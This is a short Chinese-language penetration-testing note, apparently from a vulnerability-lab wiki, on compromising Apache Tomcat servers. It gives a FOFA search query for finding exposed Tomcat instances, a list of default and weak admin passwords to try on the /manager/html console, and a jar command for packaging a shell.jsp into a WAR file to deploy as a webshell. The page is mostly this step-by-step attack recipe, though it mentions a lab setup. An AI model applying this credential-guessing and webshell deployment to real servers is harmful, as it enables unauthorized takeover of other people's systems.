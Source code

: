 ## 应用简介

![img](tomcat.png)

Tomcat 是当前最流行的 Java 中间件服务器之一。

官方网站：http://tomcat.apache.org

## 相关资产

FOFA

```http
app="APACHE-Tomcat"
```

## 环境搭建

VulnRange可快速搭建此环境

## 弱口令Getshell

1、访问`ip:8080/manager/html`

```http
admin/admin
admin/Admin
admin/Admin@123
tomcat/tomcat
tomcat/空
tomcat/123456
tomcat/654321
tomcat/000000
tomcat/111111
admin/123456
admin/654321
admin/000000
admin/111111
```

2、部署`war包`getshell

```bash
#shell.jsp单独放置一个目录，命令行下进入当前目录,打包成war包
jar -cvf login.war .\
```

找到 WAR file to deploy 这一项，上传war包后应用即可